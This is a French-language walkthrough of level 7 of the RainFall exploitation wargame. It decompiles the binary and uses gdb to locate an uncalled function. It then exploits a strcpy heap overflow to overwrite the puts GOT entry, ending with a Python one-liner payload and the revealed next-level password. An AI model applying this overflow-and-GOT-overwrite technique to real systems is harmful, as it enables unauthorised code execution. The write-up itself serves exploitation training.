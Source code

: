 # Level 7

```bash
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 "B = better ascii"
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 "B = better ascii" "What about 'i' ?"
~~
```

On a donc un segfault si l'on met moins de deux arguments, regardons ce que ca donne dans ghidra

```c
undefined4 main(undefined4 param_1,int param_2)

{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;

  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```

On peut voir 2 appels a `malloc`, 2 appels a `strcpy`(vulnerable au buffer overflow), et un appel a `fopen`, qui stock le `.pass` dans la variable `c`.
Et au niveau des fonctions dans gdb, on a ca:

```bash
(gdb) info functions
All defined functions:
Non-debugging symbols:
...
0x080484f4  m
...
```

Une fonction 'm' qui n'est pas appelée, regardons ce qu'elle fait:

```bash
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

donc avec ghidra:

```c
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  time_t tVar1;

  tVar1 = time((time_t *)0x0);
  printf("%s - %d\n",c,tVar1);
  return;
}
```

Elle print donc la variable `c` et le temps actuel.

`strcpy` etant vulnerable au buffer overflow, nous pouvons essayer de remplacer l'adresse de puts dans la GOT par l'adresse de `m`, et ainsi appeler `m` pour afficher le `.pass`. Nous allons premierement avoir besoin de l'adresse de `m` et de `puts`, avec gdb

```bash
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   ...
End of assembler dump.
```

```bash
(gdb) x/i m
   0x80484f4 <m>:       push   %ebp
(gdb) x/i puts
   0x8048400 <puts@plt>:        jmp    *0x8049928
```

L'adresse de `m` est donc `0x80484f4` et celle de `puts` est `0x8049928`.
Il faut trouver combien de caractères il faut pour remplir le buffer

```bash
level7@RainFall:~$ ./level7 AAAABBBBCCCCDDDDEEEE 1
~~
level7@RainFall:~$ ./level7 AAAABBBBCCCCDDDDEEEEFFFF 1
Segmentation fault (core dumped)
```

On a donc besoin de 20 caractères pour remplir le buffer.

```python
./level7 $(python -c 'print "i=69"*5 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1693761628
```
